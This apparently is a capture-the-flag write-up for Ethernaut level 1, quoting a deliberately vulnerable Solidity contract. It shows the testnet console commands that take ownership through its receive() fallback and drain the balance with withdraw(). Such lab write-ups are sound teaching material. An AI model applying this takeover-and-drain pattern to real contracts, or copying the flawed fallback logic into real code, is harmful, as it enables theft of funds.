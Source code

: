 # Level 1: Fallback

## Game Description

This is the level 1 of [**Ethernaut**](https://ethernaut.openzeppelin.com/) game. It involves Solidity contract fallback function and the conversion between units wei & ether. We can see the following game description:

> Look carefully at the contract's code below.
>
> You will beat this level if
>
> 1. you claim ownership of the contract
> 2. you reduce its balance to 0
>
>  Things that might help
>
> - How to send ether when interacting with an ABI
> - How to send ether outside of the ABI
> - Converting to and from wei/ether units (see `help()` command)
> - Fallback methods
>
> ```solidity
> // SPDX-License-Identifier: MIT
> pragma solidity ^0.8.0;
> 
> contract Fallback {
> 
>   mapping(address => uint) public contributions;
>   address public owner;
> 
>   constructor() {
>     owner = msg.sender;
>     contributions[msg.sender] = 1000 * (1 ether);
>   }
> 
>   modifier onlyOwner {
>         require(
>             msg.sender == owner,
>             "caller is not the owner"
>         );
>         _;
>     }
> 
>   function contribute() public payable {
>     require(msg.value < 0.001 ether);
>     contributions[msg.sender] += msg.value;
>     if(contributions[msg.sender] > contributions[owner]) {
>       owner = msg.sender;
>     }
>   }
> 
>   function getContribution() public view returns (uint) {
>     return contributions[msg.sender];
>   }
> 
>   function withdraw() public onlyOwner {
>     payable(owner).transfer(address(this).balance);
>   }
> 
>   receive() external payable {
>     require(msg.value > 0 && contributions[msg.sender] > 0);
>     owner = msg.sender;
>   }
> }
> ```

## Solution

According to this game description, we have to somehow become `owner` of the contract, then withdraw all amount from contract. From the `constructor()`, it can be seen that `owner`'s contribution is 1000 ether. The key code parts to notice are `contribute()` function and `receive()` fallback function of contract.

When our contributions more than current owner's contributed ether, we have ownership of this contract. That's too expensive. Take a look at receive() fallback function though. It also has way to change ownership. According to the code, we can claim ownership if:

- Contract has a non-zero contribution from us (i.e. `player`).
- Then, we send the contract a non-zero eth amount.

`player` address contributed nothing to contract currently, so let's satisfy first condition by sending a **less than 0.001** eth.

```solidity
> await contract.contribute.sendTransaction({ from: player, value: toWei('0.0009')})
⛏️ Sent transaction ⛏ https://goerli.etherscan.io/tx/0x40b554de3176752d17b9e71728e4535f8f119ec54d2e4854c56288a6dc050bc1
⛏️ Mined transaction ⛏ https://goerli.etherscan.io/tx/0x40b554de3176752d17b9e71728e4535f8f119ec54d2e4854c56288a6dc050bc1
{tx: '0x40b554de3176752d17b9e71728e4535f8f119ec54d2e4854c56288a6dc050bc1', receipt: {…}, logs: Array(0)}
```

Now we have a non-zero contribution that can be verify by:

```solidity
> await contract.getContribution().then(v => v.toString())
'900000000000000'
```

And then send any non-zero amount of ether to contract:

```solidity
> await sendTransaction({from: player, to: contract.address, value: toWei('0.00000001')})
'0xb0cbbfb4bb1b9885e67267542cbde8ad31980b3e3615772a92f99c62ee1c8b88'
⛏️ Sent transaction ⛏ https://goerli.etherscan.io/tx/0xb0cbbfb4bb1b9885e67267542cbde8ad31980b3e3615772a92f99c62ee1c8b88
⛏️ Mined transaction ⛏ https://goerli.etherscan.io/tx/0xb0cbbfb4bb1b9885e67267542cbde8ad31980b3e3615772a92f99c62ee1c8b88
```

Yeah! We claimed ownership of the contract. You can verify that `owner` is same address as `player` by:

```solidity
> await contract.owner() == player
true
> await contract.owner()
'0x7328c28323b00236C0556cbA56E26ce0f3a0abcd'
```

And for the final blow, withdraw all balance from contract:

```solidity
> await contract.withdraw()
⛏️ Sent transaction ⛏ https://goerli.etherscan.io/tx/0x30749ffd1c277d88bc92a82e37ffa43da00c87004ed174f2fcefe849afcf2469
⛏️ Mined transaction ⛏ https://goerli.etherscan.io/tx/0x30749ffd1c277d88bc92a82e37ffa43da00c87004ed174f2fcefe849afcf2469
{tx: '0x30749ffd1c277d88bc92a82e37ffa43da00c87004ed174f2fcefe849afcf2469', receipt: {…}, logs: Array(0)}
```

Submitting level instance.

```solidity
d[ o_0 ]b Submitting level instance... <  < <<PLEASE WAIT>> >  >
⛏️ Sent transaction ⛏ https://goerli.etherscan.io/tx/0x0a9b9aa382c5b931f4b2f91d978e8afa55ea139a923d77af76f14fab0f5fabc1
⛏️ Mined transaction ⛏ https://goerli.etherscan.io/tx/0x0a9b9aa382c5b931f4b2f91d978e8afa55ea139a923d77af76f14fab0f5fabc1
／人 ⌒ ‿‿ ⌒ 人＼ Well done, You have completed this level!!!
／人 ⌒ ‿‿ ⌒ 人＼ Well done, You have completed this level!!!
／人 ⌒ ‿‿ ⌒ 人＼ Well done, You have completed this level!!!
```

Level completed! [**Go to the next level**](Fallout.md).

